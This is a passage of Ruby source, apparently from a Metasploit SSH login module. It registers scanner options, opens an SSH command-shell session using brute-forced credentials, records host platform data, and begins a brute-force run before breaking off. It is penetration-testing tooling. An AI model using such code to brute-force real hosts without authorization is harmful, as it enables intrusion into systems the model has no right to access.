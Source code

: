 ```ruby

    register_options(
    [
        Opt::RPORT(22)
    ], self.class
    )

    register_advanced_options(
    [
        Opt::Proxies,
        OptBool.new('SSH_DEBUG', [false, 'Enable SSH debugging output (Extreme verbosity!)', false]),
        OptInt.new('SSH_TIMEOUT', [false, 'Specify the maximum time to negotiate a SSH session', 30]),
        OptBool.new('GatherProof', [true, 'Gather proof of access via pre-session shell commands', true])
    ]
    )
end

def rport
    datastore['RPORT']
end

def session_setup(result, scanner)
    return unless scanner.ssh_socket

    platform = scanner.get_platform(result.proof)

    # Create a new session
    sess = Msf::Sessions::SshCommandShellBind.new(scanner.ssh_socket)

    merge_me = {
    'USERPASS_FILE' => nil,
    'USER_FILE'     => nil,
    'PASS_FILE'     => nil,
    'USERNAME'      => result.credential.public,
    'PASSWORD'      => result.credential.private
    }
    s = start_session(self, nil, merge_me, false, sess.rstream, sess)
    self.sockets.delete(scanner.ssh_socket.transport.socket)

    # Set the session platform
    s.platform = platform

    # Create database host information
    host_info = {host: scanner.host}

    unless s.platform == 'unknown'
    host_info[:os_name] = s.platform
    end

    report_host(host_info)

    s
end


def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => 'Starting bruteforce'

    cred_collection = build_credential_collection(
```